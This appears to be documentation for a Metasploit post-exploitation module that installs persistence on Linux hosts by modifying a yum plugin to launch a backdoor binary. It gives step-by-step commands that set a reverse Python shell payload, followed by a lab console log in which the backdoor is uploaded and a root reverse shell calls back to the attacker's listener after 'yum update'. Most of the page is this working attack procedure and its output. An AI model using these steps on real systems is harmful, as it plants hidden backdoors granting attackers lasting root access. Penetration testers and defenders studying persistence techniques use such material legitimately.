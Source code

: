 ## Description

This module will run a payload when the package manager is used. No
handler is ran automatically so you must configure an appropriate
exploit/multi/handler to connect. Module modifies a yum plugin to
launch a binary of choice. grep -F 'enabled=1' /etc/yum/pluginconf.d/
will show what plugins are currently enabled on the system.

## Verification Steps

1. Exploit a box that uses Yum 
2. `use linux/local/yum_package_manager_persistence`
3. `set SESSION <id>`
4. `set PAYLOAD cmd/unix/reverse_python` configure the payload as needed
5. `exploit`

When the system runs yum update the payload will launch.  You must set handler accordingly.

## Options

**BACKDOOR_NAME**
Name of backdoor executable
 
**PLUGIN**
Name of the yum plugin to target 
  
**WritableDir**
Writable directory for backdoor default is (/usr/local/bin/)       

**PluginPath**
Plugin path to use default is (/usr/lib/yum-plugins/)

## Scenarios

### Tested on Fedora 21

```
msf exploit(linux/local/yum_package_manager_persistence) > sessions

Active sessions
===============

  Id  Name  Type             Information  Connection
  --  ----  ----             -----------  ----------
  1         shell x86/linux               172.22.222.136:4444 -> 172.22.222.135:43790 (172.22.222.135)

msf exploit(linux/local/yum_package_manager_persistence) > set session 1
session => 1
msf exploit(linux/local/yum_package_manager_persistence) > set plugin langpacks
plugin => langpacks
msf exploit(linux/local/yum_package_manager_persistence) > set lhost 172.22.222.136 
lhost => 172.22.222.136
msf exploit(linux/local/yum_package_manager_persistence) > exploit

[*] /usr/lib/yum-plugins/langpacks.py
[+] Plugins are enabled!
[*] Attempting to modify plugin
[*] Backdoor uploaded to /usr/local/bin/z9fJTx2wVg
[*] Backdoor will run on next Yum update
msf exploit(linux/local/yum_package_manager_persistence) > [*] Command shell session 2 opened (172.22.222.136:4444 -> 172.22.222.135:43791) at 2019-04-30 06:21:12 -0500

msf exploit(linux/local/yum_package_manager_persistence) > sessions

Active sessions
===============

  Id  Name  Type             Information  Connection
  --  ----  ----             -----------  ----------
  1         shell x86/linux               172.22.222.136:4444 -> 172.22.222.135:43790 (172.22.222.135)
  2         shell cmd/unix                172.22.222.136:4444 -> 172.22.222.135:43791 (172.22.222.135)

msf exploit(linux/local/yum_package_manager_persistence) > sessions -i 2
[*] Starting interaction with 2...

id    
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux localhost.localdomain 3.17.4-301.fc21.x86_64 #1 SMP Thu Nov 27 19:09:10 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 172.22.222.135 - Command shell session 2 closed.
msf exploit(linux/local/yum_package_manager_persistence) > 
```

Note: Session 2 is received after running yum update on the remote host.
